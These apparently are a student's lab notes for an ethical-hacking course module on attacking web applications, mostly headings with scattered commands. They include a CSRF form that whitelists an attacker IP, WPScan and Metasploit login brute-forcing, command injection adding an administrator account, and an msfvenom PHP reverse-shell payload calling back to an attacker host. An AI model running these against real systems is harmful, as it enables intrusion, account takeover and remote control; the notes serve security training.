 # Module 14 - Hacking Web Applications #

## Footprint the Web Infrastructure ##

### Web Application Reconnaissance ###
#### WhatWeb ####

#### OWASP ZAP ####


### Detect Load Balancers ###


### Identify Web Server Directories ###


### Web Application Vulnerability Scanning ###
#### Vega ####
Scan > Start New Scan > Enter a Base URI for Scan

#### Acunetix WVS ####
1. Add Target
2. General > Business Criticality: High
3. Scan > Select the Scan Type, Report and Schedule



### Identify Clickjacking Vulnerabilities ###
#### iframe ####


- - - -

## Perform Web Application Attacks ##

### Brute-Force Attack ###
#### Burp Suite ####


### Parameter Tampering ###
#### Burp Suite ####


### Cross-Site Scripting (XSS) ###
Changing URL parameters to obtain users information. Adding ``` <script>You've been Hacked</script> ``` to a field that reflects information.


### Cross-Site Request Forgery (CSRF) ###
CSRF in a Wordpress site.

### WPScan ###
``` wpscan -u <URL> --enumerate vp ``` - To enumerate vulnerable plugins. The plugin _Wordpress Firewall 2_ is vulnerable to CSRF.

Create the _HTML_ file:
```
  <form method="POST" action="<URL>/wp-admin/options-general.php?page=wordpress-firewall-2%2Fwordpress-firewall-2.php">
    <script>alert("As an Admin, To enable additional security to your Website. Click Submit")</script>
    <input type="hidden" name="whitelisted_ip[]" value="<Attacker IP>" >
    <input type="hidden" name="set_whitelist_ip" value="Set Whitelisted IPs" class="button-secondary" >
    <input type="submit" >
  </form> 
```

Lure the victim to execute the script and click on 'Submit'. It will perform the actions in the script: whitelisting the attacker IP so that the firewall does not affect its requests.


### Enumerate and Hack a Web Application ###
#### WPScan ####
``` wpscan --url <URL> --enumerate u ``` - Enumerates WordPress information.

#### Metasploit ####
``` msfconsole ```

1. ``` use auxiliary/scanner/http/wordpress_login_enum ```
2. ``` show options ```, ``` set PASS_FILE <Path to the Password Wordlist File> ```, ``` set RHOSTS <Target IP> ```, ``` set RPORT <Target Website Port> ```, ``` set TARGETURI <Target URL> ```, ``` set USERNAME <Username to Crack the Password - Ex. admin> ```
3. ``` exploit ```

Try the credentials in ``` <URL>/wp-login.php ```.


### Exploit a Remote Command Execution (RCE) Vulnerability ###
Dvwa:

``` ping 10.10.10.10 | net user test /add ``` - To add a user 

``` | net localgroup Administrators test /add ``` - Add the user to the Administrators group


### Exploit a File Upload Vulnerability ###
``` msfvenom -p php/meterpreter/reverse_tcp lhost=<Attacker IP> lport=<Attacker Listener Port> -f raw ``` - Generating the payload. Copy it to a .php file and upload it to the vulnerable functionality. 

Set up the listener. To execute the payload, navigate to the uploaded file in the browser.


### Gain Backdoor Access via a Web Shell ###
#### Weevely ####



- - - -

## Detect Web Application Vulnerabilities ##
### N-Stalker Web Application Security Scanner ###





